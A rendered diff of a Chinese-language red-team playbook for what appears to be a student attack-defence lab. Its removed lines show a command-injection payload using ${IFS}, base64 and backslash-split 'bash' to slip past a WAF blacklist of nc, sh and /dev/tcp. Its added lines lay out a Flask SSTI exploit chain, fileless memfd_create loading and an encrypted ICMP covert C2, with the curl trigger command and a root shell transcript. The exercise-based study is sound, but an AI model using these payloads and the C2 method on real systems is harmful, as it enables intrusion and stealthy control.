

Before and after one commit to mickeytony0215-png/Cybersecurity-project, a Markdown page: docs/RED_TEAM_PLAYBOOK.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/RED_TEAM_PLAYBOOK.md
+++ b/docs/RED_TEAM_PLAYBOOK.md
@@ -1,22 +1,22 @@
-# Red Team Playbook - 企業黑箱網路攻防實戰
+# Red Team Playbook - 企業攻防演練紅方操作手冊
 
 ## 環境概覽
 
 | 角色 | 位置 | 說明 |
 |------|------|------|
 | 紅軍攻擊機 | 同學筆電 (WSL2) | 攻擊發起端 |
-| 企業靶機 | Lab 機器 `ad_target` 帳號 | 目標，低權限 |
-| 藍軍防禦中心 | Lab 機器 `SuperUser` 帳號 | MDR + 蜜罐 + tshark |
+| 企業靶機 | Lab 機器 | Flask SSTI 漏洞服務 + SSH 蜜罐 |
+| 藍軍防禦中心 | Lab 機器 | eBPF MDR + 網路 MDR + SOC Dashboard |
 
 ## 目標基礎設施
 
 | 服務 | Port | 說明 | 注意事項 |
 |------|------|------|----------|
-| Honeypot (假 SSH) | 2222 | 蜜罐陷阱 | **觸碰即觸發 MDR 封鎖 IP** |
-| Vuln API (真目標) | 9999 | 含 WAF 的 Command Injection | 主要攻擊面 |
-| Bind Shell | 4444 | 部署後的 C2 通道 | exploit 成功後連線 |
+| Honeypot (假 SSH) | 2222 | 蜜罐陷阱 (`honeypot.py`) | **觸碰即觸發 MDR 封鎖 IP** |
+| Diagnostic API (真目標) | 9999 | Flask SSTI 漏洞 (`target_app.py`) | 主要攻擊面 |
+| Reverse Shell | 4444 | 紅方 listener 端口 | 回合 5 使用 |
 
-**Target IP:** `100.103.146.70` (依實際環境調整)
+**Target IP:** `<TARGET_IP>` (依實際環境調整)
 
 ---
 
@@ -26,42 +26,62 @@
 
 ```bash
 # 執行偵察腳本
-chmod +x recon.sh
-./recon.sh <TARGET_IP>
+bash red_team/recon.sh <TARGET_IP>
 
 # 或手動執行
 nmap -p 2000-10000 -sV <TARGET_IP>
 ```
 
 **關鍵發現：**
-- Port 2222 → SSH banner (蜜罐，不要碰！)
-- Port 9999 → Diagnostic API (真正目標)
+- Port 2222 → SSH banner (蜜罐，不要碰！觸碰會被封鎖 IP)
+- Port 9999 → Diagnostic API (真正目標，Flask SSTI 漏洞)
 
-### Phase 2: Exploitation (攻擊)
+### Phase 2: Exploitation — Fileless ICMP C2 (主要攻擊)
+
+使用 `red_attacker.py`，透過 SSTI 注入 → memfd_create 無檔案載入 → ICMP 隱蔽 C2：
 
 ```bash
-# 執行攻擊腳本
-.venv/bin/python3 exploit.py <TARGET_IP>
+# 終端 1: 啟動 C2 Server（需要 sudo，因為用 ICMP raw socket）
+sudo .venv/bin/python3 red_team/red_attacker.py -t <TARGET_IP> -l <ATTACKER_IP>
+
+# 終端 2: 貼上 C2 輸出的 curl 指令觸發 SSTI
+curl -s -X POST http://<TARGET_IP>:9999/diag -d "query=<PAYLOAD>"
 ```
 
-**WAF 繞過原理：**
+**攻擊鏈：**
+```
+SSTI 注入 → os.popen() → base64 -d → python3 loader
+  └→ memfd_create (匿名記憶體 fd)
+  └→ write(fd, agent_code)
+  └→ fork() → execve("/usr/bin/python3", ["/proc/<pid>/fd/<N>"])
+  └→ agent 透過 ICMP echo request 回連 C2（AES-256-CTR 加密）
+```
 
-WAF 黑名單: `[' ', 'bash', 'nc', 'sh', '/dev/tcp']`
+**C2 操作（收到 beacon 後）：**
+```
+C2> whoami
+root
 
-| 技術 | 說明 |
+C2> id
+uid=0(root) gid=0(root)
+
+C2> cat /etc/hostname
+target-machine
+
+C2> exit          # 終止 agent
+C2> quit          # 退出 C2
+```
+
+**技術重點：**
+
+| 技術 | 原理 |
 |------|------|
-| `${IFS}` | 替代空格字元，繞過空格過濾 |
-| `base64 -d` | 將整個 payload 編碼，繞過關鍵字偵測 |
-| `b\a\s\h` | 反斜線拆分關鍵字，繞過字串匹配 |
-
-**Payload 結構：**
-```
-127.0.0.1;echo${IFS}<base64_payload>|base64${IFS}-d|b\a\s\h
-```
+| SSTI | Flask f-string + `render_template_string` → Jinja2 執行 `{{ }}` 中的程式碼 |
+| memfd_create | syscall 319，建立匿名 RAM-only fd，不寫入磁碟 |
+| ICMP Covert C2 | 資料藏在 ICMP echo request payload，AES-256-CTR 加密 |
+| 無檔案執行 | execve 從 `/proc/<pid>/fd/<N>` 執行，無磁碟痕跡 |
 
 ### Phase 3: Post-Exploitation (後滲透)
 
-```bash
-# 連線到 Bind Shell
-nc -v <TARGET_IP> 4444
+在 C2 shell 中執行情報蒐集：
 
````
Also changed, not shown: other parts of docs/RED_TEAM_PLAYBOOK.md (+49 -114 lines).
